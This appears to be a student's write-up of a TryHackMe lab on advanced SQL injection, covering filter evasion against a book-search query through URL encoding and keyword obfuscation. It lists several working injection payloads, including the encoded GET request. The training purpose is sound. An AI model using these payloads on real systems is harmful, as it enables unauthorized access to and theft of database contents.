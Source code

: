 # Advanced SQL Injection

{% embed url="https://tryhackme.com/room/advancedsqlinjection" %}

### Task 4: Filter Evasion Techniques

Given the simple SQL query performed on the server:

```sql
SELECT * FROM books WHERE book_name = '[book_name]'
```

We can attempt to trick the system into providing us more information, by injecting the following payload:

```sql
' OR 1=1 --
```

The following code snippet displays a simple SQLi prevention mechanism where the application simply removes a few important keywords:

<figure><img src="../../../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

Thus, this causes the final SQL command to not work, as the `OR` keyword will be removed. However, it can be easily bypassed by methods such as URL encoding the payload, or obfuscating the keywords.&#x20;



**URL encode**

We can URL encode the following payload using the [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Encode\(false\)) tool:

```sql
' || 1=1 --+
```

* `'`: Closes the current value
* `||`: Substitute value for OR
* `1=1`: Always true
* `--`: Comment in SQL, forcing the database to ignore the rest of the query
* `+`: Adds a space after the comment to ensure that it is properly terminated



The URL encoded format is as follows:

```sql
'%20%7C%7C%201=1%20--+
```

To prevent any further issues with the formatting, we can analyze the HTTP request made for the query, and directly insert the payload instead. In this example, a GET request to `/search_books.php?book_name=<payload>` is made for each request.

Thus, we can send a GET request to `/search_books.php?book_name=%27%20%7C%7C%201=1%20--+` to retrieve a list of all books in the table.



**Obfuscating the keywords**

Obfuscation of keywords involves changing around the capitalization of the keywords:

Eg.&#x20;

`OR` -> `oR`, `Or`&#x20;

`OR` -> `||`



The following presents a few payloads we can use to bypass the filter mechanism:

1. `' Or '1=1` -> `SELECT * FROM books WHERE book_name = '' Or '1=1'`

<figure><img src="../../../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

2. `' Or 1=1 oR '` -> `SELECT * FROM books WHERE book_name = '' Or 1=1 oR ''`&#x20;
3. `' Or 1=1--` -> `SELECT * FROM books WHERE book_name = '' Or 1=1-- '`&#x20;
   * Take note of the space after the comment (`--`)
4. `' || '1=1`-> `SELECT * FROM books WHERE book_name = '' || '1=1'`
   * Replacing `OR` with `||` works too


